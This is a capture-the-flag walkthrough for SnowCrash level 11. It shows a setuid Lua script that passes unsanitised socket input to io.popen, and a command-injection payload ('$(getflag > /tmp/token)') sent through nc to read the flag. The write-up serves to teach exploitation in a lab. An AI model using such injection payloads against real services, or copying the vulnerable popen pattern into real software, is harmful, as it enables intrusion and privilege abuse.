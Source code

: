 # Level11

## Walkthrough

We list the files in the current home directory.

```bash
level11@SnowCrash:~$ ls -la
total 16
dr-xr-x---+ 1 level11 level11  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level11 level11  220 Apr  3  2012 .bash_logout
-r-x------  1 level11 level11 3518 Aug 30  2015 .bashrc
-r-x------  1 level11 level11  675 Apr  3  2012 .profile
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua
level11@SnowCrash:~$ file level11.lua 
level11.lua: setuid setgid a lua script, ASCII text executable
```

We check the content of the lua script.

```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

The script seems to:
- start a socket listening on **localhost** port **5151**
- accept connections and waits for a message
- hash the received message with the **sha-1** algorithm and print a text depending of the result

We check every used lua functions in the script in order to check if one is exploitable. The `popen()` function executes a shell command in a separate process. It is calling the `echo` command in the current script, concatenated with our message.  
Like previous levels, we may be able to exploit the script with a command substitution.

```bash
level11@SnowCrash:~$ nc localhost 5151
Password: $(getflag)
Erf nope..
```

The `popen()` function stores its output in the `prog` variable. To counter this, we have to save the result of the `getflag` command in a file inside `/tmp`.

```bash
level11@SnowCrash:~$ nc localhost 5151
Password: $(getflag > /tmp/token)
Erf nope..
level11@SnowCrash:~$ cat /tmp/token
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
